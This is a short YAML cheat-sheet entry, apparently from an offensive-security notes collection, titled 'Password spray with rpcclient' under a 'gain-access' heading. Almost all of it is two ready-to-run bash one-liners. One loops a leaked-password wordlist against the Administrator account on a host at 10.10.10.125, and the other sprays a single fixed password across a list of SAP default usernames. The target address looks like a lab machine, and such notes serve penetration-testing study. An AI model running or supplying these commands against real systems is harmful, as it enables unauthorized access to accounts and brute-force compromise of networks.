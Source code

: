```yaml
---
functions:
  gain-access:
    - description: Password spray with rpcclient
      code: |
        for p in $(cat /usr/share/seclists/Passwords/darkweb2017-top10.txt); do echo $p; rpcclient -U "Administrator%$p" -c "getusername;quit;" 10.10.10.125; done
        p='PcwTWTHRwryjc$c6';for u in $(cat /usr/share/seclists/Usernames/sap-default-usernames.txt); do echo $u::$p; rpcclient -U "$u"%"$p" -c "getusername;quit;" 10.10.10.125; done
---
```

